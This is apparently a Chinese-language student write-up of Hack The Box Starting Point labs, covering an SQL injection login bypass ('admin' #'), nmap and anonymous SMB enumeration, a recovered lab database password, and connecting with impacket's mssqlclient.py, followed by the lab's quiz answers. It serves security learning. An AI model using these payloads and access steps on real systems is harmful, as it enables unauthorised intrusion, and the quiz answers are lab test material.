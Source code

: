 
## TIER 1

### Appointment
有个挺麻烦的点 kali上的openvpn同步不到Windows...
只能frp代理出来了...
然而也好像出了点锅...

扫除一个80端口 一个login
用kali自带的bp也能打

然后一个 `admin' #`就登陆了... 登陆就有flag

## TIER 2

### Archetype

#### Record
```
┌──(root㉿LAPTOP-12BFM8S2)-[~]
└─# nmap -F 10.129.211.57
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-18 17:28 CST
Nmap scan report for 10.129.211.57
Host is up (0.29s latency).
Not shown: 96 closed tcp ports (reset)
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
1433/tcp open  ms-sql-s
```

经典445
smbclient看看
```
┌──(root㉿LAPTOP-12BFM8S2)-[~]
└─# smbclient -L 10.129.211.57 -N

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.211.57 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

直接连backups
```
┌──(root㉿LAPTOP-12BFM8S2)-[~]
└─# smbclient \\\\10.129.211.57\\backups -N
Try "help" to get a list of possible commands.
smb: \>
```

more读取config文件得到
```
Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc
```
也就是sql的密码
接下来就要用 `mssqlclient.py`来打

```
git clone https://github.com/SecureAuthCorp/impacket.git
 cd impacket
 pip3 install .
 # OR:
 sudo python3 setup.py  install
 # In case you are missing some modules:
 pip3 install -r requirements.txt
```

`python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth`

![img](StartingPoints/images/image.png)

接下来就不懂了 只能跟着[walkthrough](./StartingPoints/Archetype.pdf)学习了



#### Q&A
1. Which TCP port is hosting a database server?
**1433**
2. What is the name of the non-Administrative share available over SMB?
**backups**
3. What is the password identified in the file on the SMB share?
**M3g4c0rp123**